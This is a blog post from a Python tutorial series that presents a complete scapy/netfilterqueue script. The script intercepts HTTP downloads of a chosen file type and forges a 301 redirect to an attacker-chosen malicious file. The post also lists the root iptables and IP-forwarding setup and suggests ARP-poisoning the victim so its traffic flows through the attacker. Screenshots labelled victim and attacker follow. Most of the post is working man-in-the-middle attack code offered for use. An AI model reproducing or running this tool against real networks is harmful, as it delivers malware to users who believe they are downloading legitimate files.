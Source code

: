 ```yaml
---
title: A File Intercept/Replace program
date: 2021-07-10 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to intercept and replace a download to a malicious one.
---
```



<p align="left">
 <img src="https://www.itaintboring.com/wp-content/uploads/2020/12/image-51.png">
</p>


## This is a python script that intercepts an exe or a common file type download and replaces it with a malicious one of choice.

- We modify the response rather than the request, as to modify the request a manual 3-way handshake must be initiated to begin with.

- We check if the sequence number of the request is equal to the acknowledgement number of the response. If so the request corresponds to that particular matching response.

- We modify response using the __HTTP 301 redirect__ to our chosen attacker host.

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect HTTP EXE requests to this HTTPS Site/Host")
    parser.add_argument("-t", "--file-type", dest="type", help="File extension type to redirect")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid HTTPS redirect Host,  use --help for info.")
    if not options.type:
        # code to handle error
        parser.error("\n[-] Please specify a valid file extension,  use --help for info.")
    return options

ack_list = []

def set_load(packet, load):
    packet[scapy.Raw].load = load
    # remove fields and allow scapy to autocomplete these layers
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet



def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # Filter for HTTP layer
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 80:
            #print("[+] HTTP Request found")
            # Check for download exe's
            if options.type in scapy_packet[scapy.Raw].load:
                print("[+] An exe request has been found. Trying to Intercept.\n")
                ack_list.append(scapy_packet[scapy.TCP].ack)
            #print(scapy_packet.show())

        elif scapy_packet[scapy.TCP].sport == 80:
            #print("[+] HTTP Response found")
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file\n\n")
                # Remove any clutter added to packet using \n\n
                modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\r\nLocation: " + options.host + "\n\n")
                print("[+] Request succesfully redirected to target: " + options.host)
                # Convert scapy packet to str and payload
                packet.set_payload(str(modified_packet))

    packet.accept()

print("""
    _______ __        ____      __                            __            
   / ____(_) /__     /  _/___  / /____  _____________  ____  / /_____  _____
  / /_  / / / _ \    / // __ \/ __/ _ \/ ___/ ___/ _ \/ __ \/ __/ __ \/ ___/
 / __/ / / /  __/  _/ // / / / /_/  __/ /  / /__/  __/ /_/ / /_/ /_/ / /    
/_/   /_/_/\___/  /___/_/ /_/\__/\___/_/   \___/\___/ .___/\__/\____/_/     
                                                   /_/                      
    """)

try:
    options = get_arguments()
    print("[-] Note: To redirect a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    print("\n\n******************************************************************************************")
    print("""
    [!] Run the following commands as root before using this program.
    
    1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
    2. iptables -I INPUT -j NFQUEUE --queue-num 0
    3. echo 1 > /proc/sys/net/ipv4/ip_forward
    
    """)
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n[+] Exitting!")

```


### OUTPUT: 

_Victim:_ 

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/File_Interceptor/intercept1.png)

_Attacker:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/File_Interceptor/intercept2.png)
